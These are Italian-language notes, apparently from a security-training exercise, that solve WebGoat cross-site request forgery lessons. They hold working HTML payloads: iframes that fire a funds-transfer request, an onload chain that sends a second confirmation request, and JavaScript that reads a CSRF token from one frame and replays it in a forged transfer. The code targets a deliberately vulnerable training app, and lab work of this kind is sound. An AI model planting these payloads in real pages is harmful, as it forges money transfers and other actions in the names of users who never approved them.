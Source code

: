 



visualizziamo il risultato dell'invocazione di: http://172.25.1.116/WebGoat/attack?Screen=XX&menu=YY&transferFunds=4321






- primo test con iframe





<iframe src="http://172.25.1.116/WebGoat/attack?Screen=45&menu=900&transferFunds=4321"></iframe>





- serve un modo per fare partire una seconda richiesta, dopo il caricamento della prima richiesta
 usiamo la proprietà onload di iframe





<iframe id="injected_frame" src="http://172.25.1.116/WebGoat/attack?Screen=45&menu=900&transferFunds=4321" onload="document.getElementById('injected_frame').src='http://172.25.1.116/WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM';"></iframe>







• CSFR con token bypass




<script>
function readFrame1()
{
    var frameDoc = document.getElementById("frame1").contentDocument;
    var form = frameDoc.getElementsByTagName("Form")[1];
    var token = form.CSRFToken.value;
    alert(token);
    tokenvalue = '&CSRFToken='+token;
    loadFrame2();
}

function loadFrame2()
{
    var testFrame = document.getElementById("frame2");
    testFrame.src="http://172.25.1.116/WebGoat/attack?Screen=2&menu=900&transferFunds=4000"+tokenvalue;	
}
</script>





<iframe src="http://172.25.1.116/WebGoat/attack?Screen=2&menu=900&transferFunds=main" onload="readFrame1();" id="frame1"></iframe>
<iframe id="frame2"></iframe>
